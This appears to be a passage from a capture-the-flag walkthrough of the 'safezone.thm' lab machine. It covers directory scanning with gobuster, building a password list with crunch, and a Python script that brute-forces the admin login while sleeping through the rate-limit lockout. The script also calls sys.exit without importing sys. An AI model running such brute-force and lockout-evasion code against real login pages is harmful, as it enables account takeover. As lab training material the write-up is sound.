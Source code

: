 * Now, we do not get anything from the above fuzzing, and similar results are seen with other wordlists and even other pages

* We can take a step back and do directory scanning with another wordlist to ensure nothing has been missed:

  ```sh
  gobuster dir -u http://safezone.thm -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -x txt,php,html,bak,jpg,zip,bac,sh,png,md,jpeg,pl,ps1 -t 25

  gobuster dir -u http://safezone.thm -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x txt,php,html,bak,jpg,zip,bac,sh,png,md,jpeg,pl,ps1 -t 25
  ```

* From one of these wordlists, we get another directory '~files'

* Navigating to this directory, we have the 'pass.txt' file, which gives us admin password hint - "admin__admin", where the two underscores represent numbers

* We can generate a list of passwords that follow the above format:

  ```sh
  crunch 12 12 -t admin%%admin -o safezone.txt
  # % for numbers
  ```

* Back to the /index.php form, we do not have the initial lockout message. Furthermore, from the working of the website, we can see a rate limit of 60 seconds is set after every 3 attempts.

* We can create a script now to bruteforce admin's password after intercepting a sample login request to understand data format:

  ```py
  import requests
  import time

  pass_file = "safezone.txt"
  url = "http://safezone.thm/index.php"
  lock_time = 60
  attempts_limit = 3
  lock_message = "Please login after"
  number_of_attempts = 0

  with open(pass_file, "r") as fh:
    for fline in fh:
      
      password = fline.rstrip()
      # remove newline

      data = {
        "username": "admin",
        "password": password,
        "submit": "Submit"
      }

      res = requests.post(url, data=data)

      number_of_attempts += 1

      if "Please enter valid" in res.text:
        print("[-] Invalid password: {}".format(password))
      elif lock_message in res.text:
        print("[-] Invalid password: {}".format(password))
        print("[-] Hit rate limit, sleeping 60")
        time.sleep(lock_time+0.5)
      else:
        print("[+] Valid password: {}".format(password))
        sys.exit()
  ```
